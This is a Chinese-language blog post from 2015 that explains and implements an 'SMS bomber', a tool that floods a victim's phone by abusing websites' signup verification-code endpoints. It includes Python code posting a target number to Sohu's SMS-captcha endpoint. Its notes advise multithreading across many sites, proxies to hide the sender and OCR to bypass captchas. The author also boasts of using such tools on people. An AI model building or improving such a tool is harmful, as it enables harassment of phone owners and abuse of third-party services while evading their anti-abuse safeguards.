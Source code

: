 ```yaml
---
title: 短信轰炸机原理分析及简要实现
id: 1
categories:
  - Others
date: 2015-11-27 23:53:12
tags:
  - Others
  - Python
mathjax: true
---
```


很多情况下，我们会遇到一些讨厌的人，特别是那种电信诈骗的骗子，行骗方法歹毒低劣，十分令人恶心。然而我们又不能拿他们怎么办。这时候我们就会想起用电话轰炸机这个东西来打击报复。网络上也有过类似的比如“短信轰炸机”这种东西，我也用他来黑过一些人。据他们后来说他们收到的都是些注册会员啊，登陆啊之类的短信提示，十分的烦人。当时听上去就觉得这个东西真的很厉害。最近一个偶然的机会，我发现其实短信轰炸机这种东西原理也是十分的简单的，只要拥有一些基础的网页登陆的知识，理论上就可以实现写出自己的“短信轰炸机”。

## 原理

在我们注册一家网站的会员的时候，很多情况下我们需要输入我们的手机号来进行识别和绑定。通常的步骤是：(1)我们输入手机号;(2)系统会向我们的手机发送一条验证码;(3)我们将手机上收到的验证码输入到注册页面上来完成识别。明眼人一看大概就能看出其中的端倪。没错，我们就可以利用网站发送的验证短信，来作为我们的”轰炸引擎“。

## 基本步骤

步骤就是模拟登陆的步骤了，首先我们手动实现一次验证，并且用抓包工具截获他的http封包，获得post的数据，然后利用现有的编程工具，模拟请求即可。

## python简单实现

我模拟的是搜狐的注册申请，仅实现一次发送。
```python
import urllib,urllib2,cookielib
path='https://passport.sohu.com/signup/send_mobile_captcha'
number="18282828282"
cj=cookielib.CookieJar()
post_data=urllib.urlencode({'mobile':number,'captchaType':'1'})
opener=urllib2.build_opener(urllib2.HTTPCookieProcessor(cj))
opener.addheaders=[('User-agent','Opera/9.23')]
urllib2.install_opener(opener)
req=urllib2.Request(path,post_data)
response=urllib2.urlopen(req)
print response.read()
```
其中的post的数据是根据抓包抓来的数据来填写的，其他的就是简单的模拟登陆的东西。

## note

1. 实际应用中，需要使用多线程的技术申请多个网站来保证轰炸的密度。
2. 申请的频率不能太快，因为服务器端会有记录，申请太快会被拒绝服务的。
3. 通常会使用proxy代理http服务来隐藏自身信息。
4. 为了防止被利用，绝大多数的网站都会在申请时设置验证码环节来抵御我们这种恶意的申请。所以通常还需要结合OCR技术来识别验证码。
